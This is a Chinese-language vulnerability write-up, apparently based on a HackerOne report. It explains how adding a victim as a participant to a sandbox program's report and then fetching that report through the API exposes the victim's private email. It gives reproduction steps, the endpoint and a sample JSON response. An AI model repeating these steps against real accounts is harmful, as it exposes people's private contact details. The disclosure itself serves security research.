

## 前言

声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。


## 漏洞描述

允许攻击者泄露任何用户私人电子邮件的安全漏洞。

攻击者可以通过创建一个沙箱程序，然后将用户作为参与者添加到报告中，从而泄露任何用户的私人电子邮件。

现在，如果攻击者通过API发出获取报告的请求，响应将在活动对象中包含邀请的用户私人电子邮件。

## 复现步骤

重现步骤:

1.转到提交给程序的任何报告。

2.将受害者的用户名作为参与者添加到报告中。

3.生成一个API令牌。

4.通过API获取报告。


请求:
```
URL GET/POST data: GET METHOD:

https://api.hackerone.com/v1/reports/[report_id]

```




响应为(包含被邀请的用户电子邮件:):


```
"activities":
{
"data":[
{
"type":"activity-external-user- invited",
"id":"1406712",
"attributes":{
"message":null,
"created_at":"2017-01- 08T01:57:27.614Z",
"updated_at":"2017-01- 08T01:57:27.614Z",
"internal":true,
"email":"<victim's_email@example.com>"
}

```


